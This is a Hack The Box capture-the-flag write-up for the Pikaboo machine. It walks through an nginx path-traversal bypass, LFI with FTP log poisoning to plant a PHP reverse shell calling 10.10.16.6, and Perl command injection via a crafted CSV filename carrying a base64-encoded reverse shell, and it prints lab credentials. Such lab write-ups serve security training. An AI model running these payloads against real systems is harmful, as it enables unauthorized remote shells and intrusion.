# [Pikaboo](https://app.hackthebox.com/machines/Pikaboo)

```bash
nmap -p- --min-rate 10000 10.10.10.249 -Pn
```



After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p21,22,80 10.10.10.249
```




Let's access web application.


While, I want to access `admin` page, it says that Unauthorized due to credentials which I don't know.




But I know that it is `nginx` server and I can bypass it via adding `../` characters.




Let's look at `server-status` endpoint via `admin` page.




While I enter URL 'admin../pokatdex' it redirects into  below page, it means I can access localhost admin page.




For this, I will try 'admin../admin_staging'




I found LFI on `page` parameter .



From `nmap` enumeration, I saw that FTP's software is `vsftpd`, let's look at log file of FTP service via visitng `/var/log/vsftpd.log`




From here, we can see successful or unsuccessful login attempts, if we add malicious payload into username parameter, we can browse this malicious payload by LFI vulnerability.

1.Let's add payload into username field of ftp service.
`<?php system('id'); ?>`



2.Let's browse the page where LFI vulnerability have.




Let's add our reverse shell payload into username field as below.
```bash
<?php system('bash -c "bash -i >& /dev/tcp/10.10.16.6/1337 0>&1"'); ?>
```




I browse the page.




I got reverse shell from port (1337)..




Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




user.txt




Let's look at crontab by typing `cat /etc/crontab` into Terminal and saw cronjob here.




I looked at `csvupdate` script which is `Perl` script.




I enumerate machine more and find sensitive credentials on '/opt/pokeapi/config' directory for `settings.py` file.





I used this credentials to enumerrate `LDAP` via `ldapsearch` command.
```bash
ldapsearch -h 127.0.0.1 -x -b 'dc=htb' -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g'           
```




Hola, I found password of `pwnmeow` user via decoding by using `base64`.

```bash
echo "X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==" | base64 -d
```




pwnmeow: _G0tT4_C4tcH_'3m_4lL!_


I find a `Command Injection`  for `Perl` language.

My perl script is below.

```perl
#!/usr/bin/perl


shift;
for(<>)
{
  print $_;
}
```

I create a file as below which I inject `id` command.

```bash
touch '|id; #.csv'
```


I run a script as below.
```bash
perl test.pl ignore *.csv
```





I looked at `ftp` group and see that `pwnmeow` user.




Let's add our malicious payload into FTP service and waits for reverse shell.

1.First, create reverse shell in `base64` format.
```bash
echo 'bash -i >& /dev/tcp/10.10.16.6/1338 0>&1' | base64
```

2.Access into FTP service via previously grabbed credentials.
```bash
put test.txt "|echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzEzMzggMD4mMQo=|base64 -d|bash; a.csv"
```





I got reverse shell from port (1338).




root.txt

